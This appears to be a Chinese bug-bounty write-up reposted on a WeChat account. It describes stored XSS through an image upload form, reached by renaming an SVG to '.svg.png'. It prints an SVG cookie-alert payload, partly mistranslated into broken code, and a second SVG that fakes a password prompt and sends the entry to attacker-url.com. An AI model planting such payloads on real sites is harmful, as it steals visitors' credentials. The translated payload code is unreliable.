 #  赏金猎人| 我利用文件上传功能利用存储型XSS漏洞导致网站访问者凭证被盗，并因此获得了1000美元的赏金。   
原创 NightTeam  夜组科技圈   2025-02-12 00:06  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A01kogJM8ZEPSB6WyWpaoNuJ3d3CaEltibOFtcOBqTp2FxXUCuyKBmPhY8M52LvuOf9wibg3C5u6n3Q/640?wx_fmt=png&from=appmsg "")  
  
  
公众号现在只对常读和星标的才展示大图推送，  
  
建议大家把  
**夜组科技圈**  
设为  
**星标**  
，接收一手资讯！  
  
各位网络安全研究人员和漏洞猎人，大家好，我时隔很久才发布一篇文章。最近我有点忙，因为我要兼顾大学学业，还要学习一些红队技能。  
  
今天我决定发布一篇关于文件上传漏洞的文章，该漏洞会导致存储型XSS，随后受害者的凭据被盗，受害者会获得文件上传的URL。我认为，如今，Bug Hunter更注重寻找业务逻辑漏洞，而不是XSS、SQLI等技术漏洞……因为Web应用程序的安全性得到了提高。然而，你仍然可以找到技术漏洞，比如文件上传，我将在我的文章中进一步讨论。  
  
1、使用提供的凭据登录到 Web 应用程序。  
  
 2、做了一些手动枚举：  
  
 3、应用程序有很多 Web 表单：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUIYQSRMGexickK0eXtgzPVuwhBz8HfLYxD5jaBia3zHzbibdIh1vKpDic1bA/640?wx_fmt=png&from=appmsg "")  
  
  
4）如您所见，此表单有各种文本字段，尝试通过手动模糊测试表单来查找诸如sqli，xss，ssti之类的漏洞，但没有成功。  
  
徽标、背景图片和广告图片引起了我的注意，我决定上传一些恶意制作的文件并检查会发生什么。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUIxYXZyRhP7E0h12x4wzv6sVqBfqR7SdJfHO4ZUJSXmU1syf5Y3icSm4g/640?wx_fmt=png&from=appmsg "")  
  
  
5）上传此文件并在上传时产生此错误：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUIHaHEFXDgtzp63JpNhh4QJZbdZJQnVdbg3nn7a80S9O2zgSpn1yqjfQ/640?wx_fmt=png&from=appmsg "")  
  
6）我如何绕过这个问题：  
  
将我的文件名重命名为  
  
“Fileupload.svg” 改为 “Fileupload.svg.png”  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUIMxBU62XCVZatwA0LmQYCdgLBWcD4nKjq7xWMiaqR8tDwPicMrOp1v7Kw/640?wx_fmt=png&from=appmsg "")  
  
  
7）现在我单击“下一步”，并被重定向到可以访问这些文件的端点。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUIXuRaTAAfbQXuIUvTXCyS5Ovjj7OfvnMCXKqTSQJSEWyWia8rIg7gAxA/640?wx_fmt=png&from=appmsg "")  
  
  
点击“查看图片”，然后轰隆隆！  
  
Svg 文件有效载荷已上传至此处：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUIPW6ETBazTibCZsK27zdoskkHmpo4d5mDf1ZKMsIr3rQOfEHgU5yTk8Q/640?wx_fmt=png&from=appmsg "")  
  
```
<?xml 版本=”1.0" standalone=”no”?><!DOCTYPE svg PUBLIC “-//W3C//DTD SVG 1.1//EN” “http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg 版本=”1.1" baseProfile=”full” xmlns=”http://www.w3.org/2000/svg"><多边形id =“三角形”点=”0,0 0,50 50,0“填充=”＃009901“描边=”＃004400“/><script type=”text/javascript”>警报（document.cookie）；</script></svg>
```  
  
将上述有效负载修改为以下形式，以窃取凭证：  
```
<?xml version="1.0" standalone="no"?> <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg"> <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>         <script>                 var passwd = prompt("输入您的密码以继续");                 var xhr = new XMLHttpRequest();                 xhr.open("GET","https://attacker-url.com/log.php?password="+encodeURI(passwd));                 xhr.send();         </script> </svg>
```  
  
9）再次上传修改后的payload文件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUIxuAibUDWhiaQAzavDggNIVk9Ac7yBTfJYu29HSzo6ibNqnHlbPQ4yIkVw/640?wx_fmt=png&from=appmsg "")  
  
10）访问时间：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUIAC6J5FnNCD6tkRlpB7iadfDHpVXF1iaZQQlvOZtYIgCxDRRSgs4muZLw/640?wx_fmt=png&from=appmsg "")  
  
  
上传后按下一步按钮并访问这些。  
  
11）我查看了绿色 svg 图像，网页开始响应并提示我输入随机密码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUICephOZe4wDGcoWEf0iaibarFCOPpibazCLglh9MYN8tMW3wX9tYhSuuyQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GLyX5CgG8A2evVTAquxoIdu9C7a1moUIwVB1emxzBohtOjLuBvtGVq4tmIPicaXHNhXRFCrw8T56WlkThTUxvUw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
**点它，分享点赞在看都在这里**  
  
